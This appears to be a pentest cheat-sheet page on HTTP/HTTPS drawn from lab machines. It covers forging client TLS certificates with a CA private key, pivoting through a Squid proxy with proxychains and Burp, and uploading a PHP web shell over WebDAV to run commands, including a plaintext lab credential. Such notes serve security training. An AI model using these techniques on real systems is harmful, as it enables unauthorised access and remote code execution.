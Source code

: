 ```yaml
---
description: HyperText Transfer Protocol
icon: globe-pointer
---
```


# HTTP/HTTPS

<details>

<summary><mark style="color:purple;"><strong>Generate a</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>TLS</code></strong></mark><strong> </strong><mark style="color:purple;"><strong>Certificate</strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">**`With the CA private key already`**</mark>

1. <mark style="color:purple;">Verify Client Certificate Requirements:</mark>

```bash
openssl s_client -connect 10.10.10.131:443
```

2. <mark style="color:purple;">Generate the client's private key:</mark>

```bash
openssl genrsa -out client.key 4096
```

3. <mark style="color:purple;">Create a</mark> <mark style="color:orange;">**`certificate signing request (CSR)`**</mark> <mark style="color:purple;">, ensure the fields match the server's expectations:</mark>

```bash
openssl req -new -key client.key -out client.req
```

4. <mark style="color:purple;">Sign the</mark> <mark style="color:orange;">**`CSR`**</mark> <mark style="color:purple;">with the</mark> <mark style="color:orange;">**`CA’s private key`**</mark> <mark style="color:purple;">to issue a</mark> <mark style="color:orange;">**`client certificate`**</mark> <mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```bash
openssl x509 -req -in client.req -CA lacasadepapel-htb.pem -CAkey ca.key -set_serial 101 -extensions client -days 365 -outform PEM -out client.cer
```
{% endcode %}

5. <mark style="color:purple;">Convert the private key and certificate into a</mark> <mark style="color:orange;">**`PKCS#12 (.p12)`**</mark> <mark style="color:purple;">format file for easy import:</mark>

```bash
openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
```
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Squid</code></strong></mark> <mark style="color:purple;">Proxy</mark></summary>

{% hint style="info" %}
* <mark style="color:purple;">The config file normally lives in</mark> <mark style="color:orange;">**`/etc/squid/squid.conf`**</mark>
* <mark style="color:purple;">Relays on</mark> <mark style="color:orange;">**`/usr/lib/squid/basic_ncsa_auth`**</mark> <mark style="color:purple;">for authentication and the program stores the passwords in</mark> <mark style="color:orange;">**`/etc/squid/passwords`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Check if you can reverse it to access the local network.</mark>
* <mark style="color:purple;">First add the address and port to the last line of your</mark> <mark style="color:orange;">**`proxychains.conf`**</mark> <mark style="color:purple;">file:</mark>

```
http 10.10.10.67 312
```

* <mark style="color:purple;">Then, just</mark> <mark style="color:orange;">**`nmap`**</mark> <mark style="color:purple;">the</mark> <mark style="color:orange;">**`localhost`**</mark><mark style="color:purple;">:</mark>

```sh
proxychains nmap -n -sT 127.0.0.1
```
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">`Upstream Proxy Server`</mark>

1. <mark style="color:purple;">On</mark> <mark style="color:orange;">**`burp`**</mark> <mark style="color:purple;">go to</mark> <mark style="color:orange;">**`Settings > Network > Connections`**</mark>
2. &#x20;<mark style="color:purple;">Create a new rule with</mark> <mark style="color:orange;">**`*`**</mark> <mark style="color:purple;">for the</mark> <mark style="color:orange;">**`Destination Host`**</mark><mark style="color:purple;">, set the target proxy as the</mark> <mark style="color:orange;">**`Proxy Host/Port`**</mark> <mark style="color:purple;">and set the credentials with basic</mark> <mark style="color:orange;">**`Authentication type`**</mark><mark style="color:purple;">.</mark>
3. <mark style="color:purple;">In order to fuzz the</mark> <mark style="color:orange;">**`localhost`**</mark><mark style="color:purple;">, set a</mark> <mark style="color:orange;">**`Proxy Listener`**</mark><mark style="color:purple;">, redirect to</mark> <mark style="color:orange;">**`127.0.0.1:80`**</mark> <mark style="color:purple;">and set</mark> <mark style="color:orange;">**`127.0.0.1:1234`**</mark> <mark style="color:purple;">as the interface.</mark>
4. <mark style="color:purple;">Now add the interface to</mark> <mark style="color:orange;">**`/etc/proxychains.conf`**</mark><mark style="color:purple;">.</mark>
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>WebDAV</code></strong></mark></summary>

{% hint style="info" %}
###

_<mark style="color:purple;">**Web Distributed Authoring and Versioning**</mark>_<mark style="color:purple;">, an extension of the</mark> <mark style="color:orange;">**`HTTP`**</mark> <mark style="color:purple;">protocol that allows users to collaboratively edit and manage files stored on a remote server.</mark>

* <mark style="color:purple;">Extends HTTP methods like</mark> <mark style="color:orange;">**`GET`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`POST`**</mark> <mark style="color:purple;">with additional ones like</mark> <mark style="color:orange;">**`PROPFIND`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`PROPPATCH`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`MKCOL`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`DELETE`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`COPY`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`MOVE`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`LOCK`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Credentials can be found at</mark> <mark style="color:orange;">**`webdav.passwd`**</mark><mark style="color:purple;">**.**</mark>
* [<mark style="color:orange;">**`devtest`**</mark>](https://github.com/cldrn/davtest) <mark style="color:purple;">can be use for enumeration.</mark>

***

{% code title="Upload files" overflow="wrap" %}
```sh
curl --upload-file ./file.php --user <UserName>:<Password> http://10.10.10.67/webdav_test_inception/
```
{% endcode %}

{% code title="Run commands from revshell" overflow="wrap" %}
```sh
curl --data-urlencode 'cmd=id' http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/file.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}

{% code title="Enumeration" overflow="wrap" %}
```sh
davtest.pl -url http://10.10.10.67/webdav_test_inception -auth <UserName>:<Password>
```
{% endcode %}
{% endhint %}

</details>
